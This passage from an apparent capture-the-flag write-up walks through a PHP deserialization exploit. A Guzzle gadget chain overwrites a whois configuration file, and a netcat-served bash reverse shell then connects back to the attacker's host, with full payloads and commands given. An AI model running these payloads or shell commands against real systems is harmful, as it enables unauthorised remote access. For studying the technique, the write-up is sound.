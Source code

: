 ```
localhost:8080/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22%7C.%2A+++10.10.14.169%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

The file is created as expected with the following contents: `[{"Expires":1,"Discard":false,"Value":"|.*   10.10.14.169\n"}]`.

Now, we just need to start our own "whois" server, which we can do with netcat like so: `nc -nvlp 43 < revshell` where `revshell` contains our reverse shell payload: `~| bash -c 'bash -i >& /dev/tcp/10.10.14.169/4348 0>&1'` (notice the `~|` characters to take advantage of command execution in the `mail` command). We listen on port `43`, which is reserved for whois requests, and we return the reverse shell text.

Then, start a listener to recieve the reverse shell by running `nc -nvlp 4348`.

Attempting to run `whois 10.10.14.169` to test fails with this error message: `Invalid regular expression '[{"Expires":1,"Discard":false,"Value":"|.*': Unmatched [, [^, [:, [., or [=`. Apparently we need to close the braces in our `whois.conf` file. So, instead our configration file should be this:

```
}]|.*   [10.10.14.169]
```

So, we edit `whoisconfig` with `nano` and rerun `./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whoisconfig` to get:

```
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A23%3A%22%7D%5D%7C.%2A+++%5B10.10.14.169%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Navigating to the new URL below adds the correct config file:

```
localhost:8080/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A23%3A%22%7D%5D%7C.%2A+++%5B10.10.14.169%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```
